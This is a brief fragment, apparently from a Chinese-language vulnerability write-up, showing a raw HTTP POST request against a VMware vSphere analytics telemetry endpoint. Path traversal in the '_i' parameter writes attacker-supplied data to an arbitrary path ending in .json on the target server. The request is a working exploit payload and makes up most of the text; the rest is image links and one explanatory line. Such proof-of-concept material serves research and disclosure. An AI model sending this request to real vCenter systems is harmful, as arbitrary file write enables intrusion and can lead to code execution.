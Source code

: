 ![image-20230613115558640](attachments/image-20230613115558640.png)

追加写入到任意路径，文件后缀不可控为 .json

```http
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=/../../../../../../tmp/test HTTP/1.1
Host: 172.16.8.111
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: abc
Content-Length: 9

1test


```

![image-20230613112731252](attachments/image-20230613112731252.png)
